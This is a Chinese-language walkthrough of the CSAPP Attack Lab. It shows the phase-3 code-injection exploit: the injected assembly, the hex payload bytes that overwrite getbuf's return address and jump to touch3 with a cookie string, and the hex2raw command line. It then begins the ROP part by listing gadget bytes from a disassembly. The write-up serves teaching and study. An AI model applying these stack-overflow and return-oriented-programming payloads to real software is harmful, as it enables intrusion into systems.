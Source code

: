 ![](https://raw.githubusercontent.com/HJLomega/bomblab_picture/master/attack_lab2.png)

### 第三关
首先得到touch3的地址为0x401851。
由题意知，应该执行以下指令。其中`$0x5563f210`是字符串的地址。将字符串放在getbuf的调用函数的栈中，防止被覆盖。
```
movq $0x5563f210,%rdi
ret
```
机器代码为
```
 48 c7 c7 10 f2 63 55 
 c3
```
思路是将cookie的string的Ascii码注入到栈中，然后把返回地址改为getbuf的返回地址改为注入汇编代码的地址，并且把getbuf的返回地址的上面一个字改为touch3的地址，以此让注入的ret指令返回touch3。
cookie对应字符串“7a742553”的Ascii码序列为`0x37 61 37 34 32 35 35 33 00`
所以注入代码为
```
c3 55 63 f2 10 c7 c7 48 
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
00 00 00 00 55 63 f1 d8
00 00 00 00 00 40 18 51
33 35 35 32 34 37 61 37
00 00 00 00 00 00 00 00 
```
改为小端表示法
```
48 c7 c7 10 f2 63 55 c3 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
d8 f1 63 55 00 00 00 00 
51 18 40 00 00 00 00 00 
37 61 37 34 32 35 35 33 
00 00 00 00 00 00 00 00
```
将上面的代码存在input.txt中，命令行输入`./hex2raw < input.txt | ./ctarget`,攻击成功
栈的情况如下图

![](https://raw.githubusercontent.com/HJLomega/bomblab_picture/master/attack_lab3.png)

## 第二部分
### 第二关2.0
用python筛选，所有有用的gadget，如下
所有含89的
```c2 c7 ce
  4018df:	8d 87 48 89 c7 90    	lea    -0x6f3876b8(%rdi),%eax
  4018f3:	c7 07 68 89 c7 c3    	movl   $0xc3c78968,(%rdi)
  4018fa:	b8 48 89 c7 90       	mov    $0x90c78948,%eax
  401906:	c7 07 c8 89 c7 c3    	movl   $0xc3c789c8,(%rdi)
  40191f:	8d 87 89 ce 20 c0    	lea    -0x3fdf3177(%rdi),%eax
  401926:	b8 89 c2 08 d2       	mov    $0xd208c289,%eax
  40192c:	8d 87 89 ce 90 c7    	lea    -0x386f3177(%rdi),%eax
  401933:	c7 07 89 d1 c7 c5    	movl   $0xc5c7d189,(%rdi)
  40193a:	8d 87 89 ce c4 c9    	lea    -0x363b3177(%rdi),%eax
  401947:	8d 87 48 89 e0 94    	lea    -0x6b1f76b8(%rdi),%eax
  40194e:	b8 48 89 e0 c2       	mov    $0xc2e08948,%eax
  401954:	c7 07 8c 89 ce 90    	movl   $0x90ce898c,(%rdi)
```